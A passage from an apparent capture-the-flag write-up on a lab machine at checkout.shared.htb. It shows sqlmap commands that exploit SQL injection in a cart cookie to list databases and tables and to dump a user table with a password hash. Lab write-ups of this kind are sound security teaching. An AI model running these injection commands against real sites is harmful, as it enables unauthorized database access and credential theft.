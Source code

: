     [13:23:58] [INFO] confirming MySQL
    [13:23:59] [INFO] the back-end DBMS is MySQL
    web application technology: Nginx 1.18.0
    back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
    [13:23:59] [INFO] fetched data logged to text files under '/home/oxdf/.sqlmap/output/checkout.shared.htb'

    [*] ending @ 13:23:59 /2022-08-12/



#### Database Enumeration

There are two databases (and `information_schema` is the MySQL default):



    oxdf@hacky$ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch --dbs
    ...[snip]...
    [13:27:52] [INFO] fetching database names
    do you want to URL encode cookie values (implementation specific)? [Y/n] Y
    available databases [2]:
    [*] checkout
    [*] information_schema
    ...[snip]...



`checkout` has two tables:



    oxdf@hacky$ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch -D checkout --tables
    ...[snip]...
    [13:28:36] [INFO] fetching tables for database: 'checkout'
    do you want to URL encode cookie values (implementation specific)? [Y/n] Y
    Database: checkout
    [2 tables]
    +---------+
    | user    |
    | product |
    +---------+
    ...[snip]...



I'll dump both tables. The `product` table isn't interesting, but the
`user` table has a hash:



    oxdf@hacky$ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch -D checkout -T user --dump
    ...[snip]...
    Database: checkout
    Table: user
    [1 entry]
    +----+----------------------------------+-------------+
    | id | password                         | username    |
    +----+----------------------------------+-------------+
    | 1  | fc895d4eddc2fc12f995e18c865cf273 | james_mason |
    +----+----------------------------------+-------------+
    ...[snip]...
